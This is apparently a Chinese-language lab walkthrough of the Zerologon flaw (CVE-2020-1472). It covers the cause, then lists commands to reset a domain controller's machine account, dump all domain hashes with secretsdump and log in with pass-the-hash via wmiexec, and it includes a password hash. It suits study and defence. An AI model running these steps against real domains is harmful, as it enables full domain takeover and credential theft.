 ### 1）背景

未经身份验证的攻击者只需要能访问域控的135端口，即可通过NetLogon远程协议连接域控并重置域控机器账户的hash，从而导致攻击者可以利用域控的机器账户导出域内所有用户的Hash(域控的机器账户默认具有DCSync权限)，进而接管整个域。

### 2）原理

NetLogon协议认证的加密模块存在缺陷，导致攻击者可以在没有凭据的情况下通过认证。通过认证后，调用NetLogon协议中RPC函数NetrServerpasswordSet2来重置域控机器账户的Hash，进而接管全域。

### 3）利用

#### 本次我们使用kali进行渗透，因为kali上自带的一些工具和环境更方便，当然读者也可以去找windows上的替代品！！

1、获取计算机的名字：

```shell
nbtscan -v -h 192.168.3.21
```

![截图](57b9e27ddeef6d3b1adc8cbe320e54c9.png)

2、利用代理，连接dc并清空dc的凭证：

```shell
 proxychains4 cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21 
```

![截图](07be74c7b4cb2454735bbec554a61e8d.png)

3、获取域内hash：

==注：这里使用Impacket包的时候，需要现在的目录中执行以下命令：==

```shell
pip install .
```

然后执行这个获取域内hash的命令：

```shell
proxychains python3 secretsdump.py OWA2010CN-GOD\$@192.168.3.21 -just-dc -no-pass
```

![截图](4085a8e9c63c6a1ee3e87a72af980630.png)

4、连接域控PTH：

```shell
python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
```

![截图](d4bae69c19a2219af45043cb70a25233.png)

5、记得回复密码！！！

## 0x05 CVE-2022-26923
